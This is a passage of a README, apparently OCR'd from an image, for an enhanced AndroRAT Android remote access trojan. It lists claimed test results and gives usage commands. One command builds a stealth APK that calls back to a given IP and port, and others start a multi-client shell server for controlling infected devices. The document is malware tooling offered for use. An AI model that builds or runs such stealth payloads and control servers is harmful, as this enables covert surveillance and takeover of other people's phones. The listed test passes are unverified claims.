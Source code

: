 ## 🧪 Testing and Validation

### Test Coverage
- **Unit Tests**: 14 comprehensive test cases
- **Integration Tests**: Cross-component validation
- **Compatibility Tests**: Android version compliance
- **GUI Tests**: Interface functionality validation
- **Security Tests**: TLS and encryption validation

### Test Results
```
✓ All enhanced features tests passed!
✓ Android 13/14+ compatibility validated
✓ Modern permission handling verified
✓ WorkManager integration confirmed
✓ TLS secure communication tested
✓ Advanced multi-client GUI functional
✓ Modern storage access implemented
```

## 🚀 Usage Instructions

### Building Enhanced APK
```bash
# Using GUI
python3 androRAT_advanced_gui.py

# Using CLI with enhancements
python3 androRAT.py --build --stealth -i 192.168.1.100 -p 8080 -o enhanced.apk
```

### Running Advanced Server
```bash
# Launch advanced multi-client GUI
python3 androRAT_advanced_gui.py

# Traditional GUI (still available)
python3 androRAT_gui.py

# CLI server
python3 androRAT.py --shell -i 0.0.0.0 -p 8080
```

### Testing Implementation
```bash
# Run enhanced feature tests
python3 test_enhanced_features.py

# Run original tests
python3 test_androrat.py

# Comprehensive testing
python3 comprehensive_test.py
```
